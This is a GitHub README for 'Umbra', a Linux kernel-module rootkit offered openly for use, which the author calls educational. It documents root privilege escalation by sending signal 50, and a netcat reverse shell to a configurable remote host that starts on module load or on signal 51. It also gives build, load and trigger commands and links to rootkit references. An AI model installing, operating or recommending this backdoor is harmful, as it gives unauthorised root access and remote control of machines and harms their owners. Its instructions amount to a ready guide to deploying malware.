

# Umbra

Umbra (/ˈʌmbrə/) is an experimental LKM rootkit for kernels 4.x and 5.x (up to 5.7) which can be used to spawn a netcat reverse shells to remote hosts and more.

The rootkit is still under development, although the features listed below are already fully operational.

Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* Privilege scalation by sending signal 50
* Start netcat reverse shell on module load.
* Spawn netcat reverse shell to chosen remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra does not incorporate any hiding or protection mechanisms yet.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2.Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/marsan27/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
1. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Usage
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```


Note: Umbra also tries to start the reverse shell on load.


## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license.